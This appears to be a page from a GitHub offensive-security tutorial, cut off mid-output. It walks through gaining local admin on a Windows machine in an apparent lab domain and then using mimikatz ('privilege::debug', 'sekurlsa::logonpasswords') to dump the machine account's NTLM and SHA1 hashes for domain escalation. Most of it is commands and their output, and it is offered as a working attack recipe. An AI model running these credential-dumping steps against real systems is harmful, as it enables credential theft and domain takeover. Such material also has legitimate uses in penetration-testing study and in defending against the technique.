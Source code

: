 
Access remote pc 

![image](https://user-images.githubusercontent.com/13157446/129424569-f6d10db2-4e5f-402d-beb9-f827cb25fada.png)


![image](https://user-images.githubusercontent.com/13157446/129424166-5296aee2-0d58-4906-8331-19c1d34e3526.png)


# Machine Domain admin-Use machine NTLM hash

	We need Local Admin rights on machine

	PS C:\Users\testuser\Desktop\mimikatz\x64> whoami
	thor\win7
	PS C:\Users\testuser\Desktop\mimikatz\x64> net user win7
	Kullanıcı adı                         win7
	Tam ad
	Açıklama
	Kullanıcı açıklaması
	Ülke kodu                             (null)
	Hesap etkin                           Evet
	Hesap zaman aşımı                     Asla

	Parolanın son ayarlanmadı             12.08.2021 23:35:30
	Parola süre sonu                      23.09.2021 23:35:30
	Değişebilir parola                    13.08.2021 23:35:30
	Parola gerekli                        Hayır
	Kullanıcı parolayı değiştirebilir     Evet

	İzin verilen iş istasyonları          Tümü
	Oturum açma kodu
	Kullanıcı profili
	Ana dizin
	Son oturum açma                       14.08.2021 13:08:24

	İzin verilen oturum açma saatleri     Tümü

	Yerel Grup Üyeliği                    *Administrators
										  *Users
	Genel Grup üyeliği                    *None
	Komut başarıyla tamamlandı.


Use mimikatz and read machine NTLM hash

	Using 'Machine_hash.txt' for logfile : OK

	mimikatz # privilege::debug
	Privilege '20' OK

	mimikatz # sekurlsa::logonpasswords

	Authentication Id : 0 ; 996 (00000000:000003e4)
	Session           : Service from 0
	User Name         : THOR$
	Domain            : VALHALLA
	Logon Server      : (null)
	Logon Time        : 14.08.2021 01:02:17
	SID               : S-1-5-20
		msv :	
		 [00000003] Primary
		 * Username : THOR$
		 * Domain   : VALHALLA
		 * NTLM     : f7e21314c3fb5d1c48a2d9d5b42b552c
		 * SHA1     : 9ec0546cae764e724a6348ada07efd896ab76458
		tspkg :	
		wdigest :	
		 * Username : THOR$